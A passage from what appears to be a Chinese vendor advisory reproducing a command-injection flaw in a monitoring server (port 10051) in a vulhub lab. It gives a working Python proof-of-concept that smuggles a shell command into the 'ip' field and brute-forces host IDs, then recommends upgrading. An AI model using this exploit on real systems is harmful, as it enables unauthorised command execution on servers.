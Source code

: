 以上规则的意思就是任意自动注册的host，没有任何拒绝规则，都会直接添加到server中。  
  
（4）执行以下POC脚本，该poc执行的是写入文件的操作，使用python3执行该poc。  
```
import sys
import socket
import json
import sys

def send(ip, data):
conn = socket.create_connection((ip, 10051), 10)
conn.send(json.dumps(data).encode())
data = conn.recv(2048)
conn.close()
return data

target = sys.argv[1]
print(send(target, {"request":"active checks","host":"vulhub","ip":"ffff:::;touch /tmp/success2"}))
for i in range(10000, 10500):
data = send(target, {"request":"command","scriptid":1,"hostid":str(i)})
if data and b'failed' not in data:
print('hostid: %d' % i)
print(data)
```  
  
当出现如下结果后说明命令执行成功。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/HxO8NorP4JW6iaS4QIpvF3kDBibJiaYKljFGbY3Sica0bS5my11Y1neevgHhzYstQR5iaF86bWtEwsWTSkbGrv1dAJQ/640?wx_fmt=png "")  
  
（5）进入server容器，可看见/tmp/success2已成功创建。  
```
docker ps //列出容器
docker exec -it c8552d7e36ce /bin/bash //进入server容器
```  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/HxO8NorP4JW6iaS4QIpvF3kDBibJiaYKljFtn6cf0BPibwu8gSK73ZLRbcwV8eOico5ysdnzhUpphCNE1pOicdf9hjng/640?wx_fmt=png "")  
  
**修复建议**建议升级至最新版本  
  
  
**安恒信息**  
  
  
✦  
  
杭州亚运会网络安全服务官方合作伙伴  
  
成都大运会网络信息安全类官方赞助商  
  
武汉军运会、北京一带一路峰会  
  
青岛上合峰会、上海进博会  
  
厦门金砖峰会、G20杭州峰会  
  
支撑单位北京奥运会等近百场国家级  
  
重大活动网络安保支撑单位  
  
